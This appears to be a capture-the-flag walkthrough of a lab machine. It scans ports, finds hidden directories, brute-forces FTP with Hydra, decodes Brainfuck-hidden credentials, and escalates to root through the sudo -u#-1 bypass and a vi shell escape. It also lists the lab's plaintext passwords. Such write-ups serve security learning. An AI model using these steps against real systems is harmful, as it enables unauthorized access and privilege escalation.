 # Target = 10.10.21.42

## Port scanning
	nmap 10.10.21.42
	21/tcp open  ftp
	22/tcp open  ssh
	80/tcp open  http
(every service is a software (with versions))

	nmap -p 21,22,80 -sV 10.10.21.42
	21/tcp open  ftp     vsftpd 3.0.2
	22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.10 ((Debian))
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	
## Directories
	dirb http://10.10.21.42/ (checking directories, gobuster is another tool for this)
	
	http://10.10.21.42/sup3r_s3cr3t_fl4g.php
	http://10.10.21.42/intermediary.php?hidden_directory=/WExYY2Cv-qU
	
## Metadata
	wget http://10.10.21.42/WExYY2Cv-qU/Hot_Babe.png (download file)
	strings Hot_Babe.png (checking metadata, exiftools is another tool for this)
	
	Username for FTP is: ftpuser
	One of these is the password:
	Mou+56n%QK8sr
	1618B0AUshw1M
	A56IpIl%1s02u
	vTFbDzX9&Nmu?
	FfF~sfu^UQZmT
	8FF?iKO27b~V0
	ua4W~2-@y7dE$
	3j39aMQQ7xFXT
	Wb4--CTc4ww*-
	u6oY9?nHv84D&
	0iBp4W69Gr_Yf
	TS*%miyPsGV54
	C77O3FIy0c0sd
	O14xEhgg0Hxz1
	5dpv#Pr$wqH7F
	1G8Ucoce1+gS5
	0plnI%f0~Jw71
	0kLoLzfhqq8u&
	kS9pn5yiFGj6d
	zeff4#!b5Ib_n
	rNT4E4SHDGBkl
	KKH5zy23+S0@B
	3r6PHtM4NzJjE
	gm0!!EC1A0I2?
	HPHr!j00RaDEi
	7N+J9BYSp4uaY
	PYKt-ebvtmWoC
	3TN%cD_E6zm*s
	eo?@c!ly3&=0Z
	nR8&FXz$ZPelN
	eE4Mu53UkKHx#
	86?004F9!o49d
	SNGY0JjA5@0EE
	trm64++JZ7R6E
	3zJuGL~8KmiK^
	CR-ItthsH%9du
	yP9kft386bB8G
	A-*eE3L@!4W5o
	GoM^$82l&GA5D
	1t$4$g$I+V_BH
	0XxpTd90Vt8OL
	j0CN?Z#8Bp69_
	G#h~9@5E5QA5l
	DRWNM7auXF7@j
	Fw!if_=kk7Oqz
	92d5r$uyw!vaE
	c-AA7a2u!W2*?
	zy8z3kBi#2e36
	J5%2Hn+7I6QLt
	gL$2fmgnq8vI*
	Etb?i?Kj4R=QM
	7CabD7kwY7=ri
	4uaIRX~-cY6K4
	kY1oxscv4EB2d
	k32?3^x1ex7#o
	ep4IPQ_=ku@V8
	tQxFJ909rd1y2
	5L6kpPR5E2Msn
	65NX66Wv~oFP2
	LRAQ@zcBphn!1
	V4bt3*58Z32Xe
	ki^t!+uqB?DyI
	5iez1wGXKfPKQ
	nJ90XzX&AnF5v
	7EiMd5!r%=18c
	wYyx6Eq-T^9#@
	yT2o$2exo~UdW
	ZuI-8!JyI6iRS
	PTKM6RsLWZ1&^
	3O$oC~%XUlRO@
	KW3fjzWpUGHSW
	nTzl5f=9eS&*W
	WS9x0ZF=x1%8z
	Sr4*E4NT5fOhS
	hLR3xQV*gHYuC
	4P3QgF5kflszS
	NIZ2D%d58*v@R
	0rJ7p%6Axm05K
	94rU30Zx45z5c
	Vi^Qf+u%0*q_S
	1Fvdp&bNl3#&l
	zLH%Ot0Bw&c%9
	
## Brute force - Hydra
	
	nano passwords.txt (putting the password list)
	
	hydra -l ftpuser -P passwords.txt ftp://10.10.21.42/ -vV (-l: login | -P: file | -vV: verbose, it shows the attempts)
	
	[21][ftp] host: 10.10.21.42   login: ftpuser   password: 5iez1wGXKfPKQ
	
## FTP
	ftp 10.10.21.42
	username
	password
	
	ftp> 
	get Eli's_Creds.txt (download file)
	
## Brainfuck
	cat:
	+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
	--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
	++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
	+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
	]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
	++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
	--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
	+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
	++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
	<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
	<]>+. <+++[ ->--- <]>-- ---.- ----. <
	
	Brainfuck decoded (https://www.dcode.fr/brainfuck-language):
	User: eli
	Password: DSpDiM1wAEwid
	
## SSH & Privilege escalation
	ssh eli@10.10.21.42
	password
	
	find / -name s3cr3t 2> /dev/null (finding name into the system, 2> /dev/null: exception sending errors to>, / = root folder)
	ls -a (finding hidden archives)
	
	su gwendoline (changing user)
	MniVCQVhQHUNI
	
	sudo -l (checking if user has any permission to execute any file into the system)
	
	https://gtfobins.github.io/ - Privilege escalation
	
	(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
	sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt - Editing file with root as the user has root permission for this one
	
	:!ls (VI will execute this)
	
	:!/bin/bash (VI will escalate your permission to root permanently)
